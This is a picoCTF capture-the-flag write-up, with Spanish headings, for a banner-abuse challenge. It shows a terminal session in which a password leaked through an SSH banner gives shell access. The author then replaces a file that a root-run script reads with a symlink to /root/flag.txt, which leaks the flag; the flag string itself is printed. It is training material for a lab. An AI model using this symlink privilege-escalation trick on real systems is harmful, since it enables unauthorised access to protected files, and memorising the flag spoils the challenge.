 ## Descripción

Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 63172`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 57771`. From the above information abuse the machine and find the flag in the /root directory.
## Pistas

1. Do you know about symlinks?
2. Maybe some small password cracking or guessing

## Solución


`┌──(kali㉿kali)-[~]`
`└─$ nc tethys.picoctf.net 63172`
`SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234`
`^C`
                                                                                                            
`┌──(kali㉿kali)-[~]`
`└─$  nc tethys.picoctf.net 57771`
`*************************************`
`**************WELCOME****************`
`*************************************`

`what is the password?` 
`My_Passw@rd_@1234`
`What is the top cyber security conference in the world?`
`DEFCON`
`the first hacker ever was known for phreaking(making free phone calls), who was it?`
`John Draper`
`player@challenge:~$ ls /al`
`ls /al`
`ls: cannot access '/al': No such file or directory`
`player@challenge:~$ ls -al`          
`ls -al`
`total 20`
`drwxr-xr-x 1 player player   20 Mar  9  2024 .`
`drwxr-xr-x 1 root   root     20 Mar  9  2024 ..`
`-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout`
`-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc`
`-rw-r--r-- 1 player player  807 Apr  4  2018 .profile`
`-rw-r--r-- 1 player player  114 Feb  7  2024 banner`
`-rw-r--r-- 1 root   root     13 Feb  7  2024 text`
`player@challenge:~$ cat banner`
`cat banner`
`*************************************`
`**************WELCOME****************`
`*************************************`
`player@challenge:~$ cat text`
`cat text`
`keep digging`
`player@challenge:~$ ls -al /root`              
`ls -al /root`
`total 16`
`drwxr-xr-x 1 root root    6 Mar  9  2024 .`
`drwxr-xr-x 1 root root   29 Apr 16 20:45 ..`
`-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc`
`-rw-r--r-- 1 root root  148 Aug 17  2015 .profile`
`-rwx------ 1 root root   46 Mar  9  2024 flag.txt`
`-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py`
`player@challenge:~$ cat /root/script.py`                                                               
`cat /root/script.py`

`import os`
`import pty`

`incorrect_ans_reply = "Lol, good try, try again and good luck\n"`

`if __name__ == "__main__":`
    `try:`
      `with open("/home/player/banner", "r") as f:`
        `print(f.read())`
    `except:`
      `print("*********************************************")`
      `print("***************DEFAULT BANNER****************")`
      `print("*Please supply banner in /home/player/banner*")`
      `print("*********************************************")`

`try:`
    `request = input("what is the password? \n").upper()`
    `while request:`
        `if request == 'MY_PASSW@RD_@1234':`
            `text = input("What is the top cyber security conference in the world?\n").upper()`
            `if text == 'DEFCON' or text == 'DEF CON':`
                `output = input(`
                    `"the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()`
                `if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':`
                    `scmd = 'su - player'`
                    `pty.spawn(scmd.split(' '))`

                `else:`
                    `print(incorrect_ans_reply)`
            `else:`
                `print(incorrect_ans_reply)`
        `else:`
            `print(incorrect_ans_reply)`
            `break`

`except:`
    `KeyboardInterrupt`

`player@challenge:~$ rm /home/player/banner`     
`rm /home/player/banner`
`player@challenge:~$ ls -s /root/flag.txt /home/player/banner`
`ls -s /root/flag.txt /home/player/banner`
`ls: cannot access '/home/player/banner': No such file or directory`
`4 /root/flag.txt`
`player@challenge:~$ ln -s /root/flag.txt /home/player/banner`
`ln -s /root/flag.txt /home/player/banner`
`player@challenge:~$ ^C`
                                                                                                            
`┌──(kali㉿kali)-[~]`
`└─$  nc tethys.picoctf.net 57771`
`picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}`

`what is the password?` 



## Notas Adicionales



## Referencias
- 

